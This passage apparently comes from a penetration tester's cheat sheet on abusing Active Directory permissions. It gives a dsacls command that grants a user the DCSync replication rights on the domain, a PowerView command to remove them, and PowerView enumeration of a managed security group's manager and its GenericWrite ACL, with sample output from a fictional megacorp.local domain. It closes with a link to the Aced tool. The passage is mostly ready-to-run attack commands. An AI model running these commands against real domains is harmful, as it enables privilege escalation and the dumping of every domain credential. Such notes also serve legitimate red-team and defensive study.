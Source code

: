 ```
PS > $dse = [ADSI]"LDAP://Rootdse"
PS > $namingContext = $dse.defaultNamingContext
PS > dsacls.exe $namingContext /G snovvcrash":CA;Replicating Directory Changes All" snovvcrash":CA;Replicating Directory Changes"
```

Clean up:

```
PV3 > Remove-DomainObjectAcl -TargetIdentity megacorp.local -PrincipalIdentity snovvcrash -Rights DCSync
```




## Managed Security Groups

* [https://stealthbits.com/blog/exploiting-weak-active-directory-permissions-with-powersploit/](https://stealthbits.com/blog/exploiting-weak-active-directory-permissions-with-powersploit/)

Returns all security groups in the current (or target) domain that have a manager set:

```
PV3 > Get-DomainManagedSecurityGroup

GroupName                : Security Operations
GroupDistinguishedName   : CN=Security Operations,CN=Users,DC=MEGACORP,DC=LOCAL
ManagerName              : john.doe
ManagerDistinguishedName : CN=John Doe,OU=Security,OU=IT,OU=Employees,DC=MEGACORP,DC=LOCAL
ManagerType              : User
ManagerCanWrite          : UNKNOWN
```

Enumerate the ACLs set on this group. `GenericWrite` privilege means that the user can modify group membership:

```
PV3 > $sid = ConvertTo-SID john.doe
PV3 > Get-DomainObjectAcl -Identity 'Security Operations' | ? {$_.SecurityIdentifier -eq $sid}

ObjectDN              : CN=Security Operations,CN=Users,DC=MEGACORP,DC=LOCAL
ObjectSID             : S-1-5-21-3167813660-1240564177-918740779-2549
ActiveDirectoryRights : ListChildren, ReadProperty, GenericWrite
BinaryLength          : 36
AceQualifier          : AccessAllowed
IsCallback            : False
OpaqueLength          : 0
AccessMask            : 131132
SecurityIdentifier    : S-1-5-21-3167813660-1240564177-918740779-1874
AceType               : AccessAllowed
AceFlags              : ContainerInherit
IsInherited           : False
InheritanceFlags      : ContainerInherit
PropagationFlags      : None
AuditFlags            : None
```




## Tools



### Aced

- [https://github.com/garrettfoster13/aced](https://github.com/garrettfoster13/aced)
